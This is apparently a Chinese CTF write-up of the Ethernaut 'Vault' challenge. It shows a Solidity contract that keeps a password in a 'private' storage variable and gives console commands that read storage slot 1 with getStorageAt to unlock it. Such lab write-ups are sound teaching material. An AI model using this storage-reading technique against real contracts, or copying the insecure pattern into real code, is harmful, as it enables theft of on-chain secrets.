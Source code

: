 # Ethernaut做题笔记(第九题)



## 1.题目要求

打开 vault 来通过这一关!



## 2.题目代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```



## 3.合约分析

两个知识点

- 合约部署时，其构造函数从 `initCode` 获取参数的方式
- 合约 storage 变量在状态树中的存储方式

两种思路

- 通过 EtherScan 查看合约部署时的 inputdata

- 通过 `getStorageAt` 向后端节点查询地址存储树



## 4.攻击流程

```
await contract.locked()
true

await contract.unlock(await web3.eth.getStorageAt(contract.address, 1))

await contract.locked()
false
```



![i6TbVb.png](https://i.328888.xyz/2023/04/19/i6TbVb.png)
